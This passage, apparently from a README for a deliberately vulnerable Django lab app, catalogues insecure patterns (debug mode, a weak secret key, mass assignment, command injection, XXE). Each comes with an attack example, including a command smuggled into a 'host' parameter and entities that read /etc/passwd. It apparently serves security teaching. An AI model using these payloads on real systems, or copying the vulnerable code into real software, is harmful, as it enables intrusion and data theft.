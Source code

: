 ### 8. Debug Mode Enabled
```python
# settings.py
DEBUG = True  # Exposes sensitive information

# Attack - Trigger error
http://localhost:8093/nonexistent
# Shows full stack trace, settings, etc.
```

### 9. Weak Secret Key
```python
# settings.py
SECRET_KEY = 'django-insecure-123'  # Predictable

# Can forge sessions, CSRF tokens
```

### 10. Mass Assignment
```python
def update_profile(request):
    user = request.user
    # Updates all fields from request
    for key, value in request.POST.items():
        setattr(user, key, value)
    user.save()
    
# Attack - Escalate privileges
POST /update_profile
is_staff=true&is_superuser=true
```

### 11. Command Injection
```python
def ping_host(request):
    host = request.GET.get('host')
    # Unsafe
    output = os.system(f'ping -c 1 {host}')
    
# Attack
http://localhost:8093/ping?host=google.com;cat /etc/passwd
```

### 12. XXE in File Processing
```python
def parse_xml(request):
    xml_data = request.body
    # Unsafe XML parsing
    tree = etree.parse(BytesIO(xml_data))
    
# Attack
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```
